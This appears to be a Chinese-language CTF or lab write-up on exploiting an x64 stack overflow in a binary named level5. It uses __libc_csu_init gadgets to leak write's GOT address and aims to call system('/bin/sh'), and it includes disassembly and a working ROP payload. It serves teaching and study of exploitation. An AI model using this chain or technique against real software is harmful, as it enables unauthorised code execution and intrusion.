 
程序仅仅只有一个栈溢出，也没有任何的辅助函数，所以要先泄露内存信息，找到system()的值，然后再传递“/bin/sh”到.bss段, 最后调用system(“/bin/sh”)。因为原程序使用了write()和read()函数，我们可以通过write()去输出write.got的地址，从而计算出libc.so在内存中的地址。但问题在于write()的参数应该如何传递，因为x64下前6个参数不是保存在栈中，而是通过寄存器传值。我们使用ROPgadget并没有找到类似于pop rdi, ret,pop rsi, ret这样的gadgets。其实在x64下有一些万能的gadgets可以利用。比如说我们用objdump -d ./level5观察一下__libc_csu_init()这个函数。一般来说，只要程序调用了libc.so，程序都会有这个函数用来对libc进行初始化操作。

```
00000000004005a0 <__libc_csu_init>:
4005a0: 48 89 6c 24 d8 mov %rbp,-0x28(%rsp)
4005a5: 4c 89 64 24 e0 mov %r12,-0x20(%rsp)
4005aa: 48 8d 2d 73 08 20 00 lea 0x200873(%rip),%rbp # 600e24 <__init_array_end>
4005b1: 4c 8d 25 6c 08 20 00 lea 0x20086c(%rip),%r12 # 600e24 <__init_array_end>
4005b8: 4c 89 6c 24 e8 mov %r13,-0x18(%rsp)
4005bd: 4c 89 74 24 f0 mov %r14,-0x10(%rsp)
4005c2: 4c 89 7c 24 f8 mov %r15,-0x8(%rsp)
4005c7: 48 89 5c 24 d0 mov %rbx,-0x30(%rsp)
4005cc: 48 83 ec 38 sub $0x38,%rsp
4005d0: 4c 29 e5 sub %r12,%rbp
4005d3: 41 89 fd mov %edi,%r13d
4005d6: 49 89 f6 mov %rsi,%r14
4005d9: 48 c1 fd 03 sar $0x3,%rbp
4005dd: 49 89 d7 mov %rdx,%r15
4005e0: e8 1b fe ff ff callq 400400 <_init>
4005e5: 48 85 ed test %rbp,%rbp
4005e8: 74 1c je 400606 <__libc_csu_init+0x66>
4005ea: 31 db xor %ebx,%ebx
4005ec: 0f 1f 40 00 nopl 0x0(%rax)
4005f0: 4c 89 fa mov %r15,%rdx
4005f3: 4c 89 f6 mov %r14,%rsi
4005f6: 44 89 ef mov %r13d,%edi
4005f9: 41 ff 14 dc callq *(%r12,%rbx,8)
4005fd: 48 83 c3 01 add $0x1,%rbx
400601: 48 39 eb cmp %rbp,%rbx
400604: 75 ea jne 4005f0 <__libc_csu_init+0x50>
400606: 48 8b 5c 24 08 mov 0x8(%rsp),%rbx
40060b: 48 8b 6c 24 10 mov 0x10(%rsp),%rbp
400610: 4c 8b 64 24 18 mov 0x18(%rsp),%r12
400615: 4c 8b 6c 24 20 mov 0x20(%rsp),%r13
40061a: 4c 8b 74 24 28 mov 0x28(%rsp),%r14
40061f: 4c 8b 7c 24 30 mov 0x30(%rsp),%r15
400624: 48 83 c4 38 add $0x38,%rsp
400628: c3 retq   
```

我们可以看到利用0x400606处的代码我们可以控制rbx,rbp,r12,r13,r14和r15的值，随后利用0x4005f0处的代码我们将r15的值赋值给rdx, r14的值赋值给rsi,r13的值赋值给edi，随后就会调用
`call qword ptr [r12+rbx*8]`。这时候我们只要再将rbx的值赋值为0，再通过精心构造栈上的数据，我们就可以控制pc去调用我们想要调用的函数了（比如说write函数）。执行完`call qword ptr [r12+rbx*8]`之后，程序会对rbx+=1，然后对比rbp和rbx的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让rbp和rbx的值相等，我们可以将rbp的值设置为1，因为之前已经将rbx的值设置为0了。接下来按照这个思路来构造ROP链。

我们先构造payload1，利用write()输出write在内存中的地址。注意我们的gadget是`call qword ptr [r12+rbx*8]`，所以我们应该使用write.got的地址而不是write.plt的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。

```
 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=write.got, rdx=4)
 payload1 = "\x00"*136
 payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload1 += "\x00"*56
 payload1 += p64(main)
```
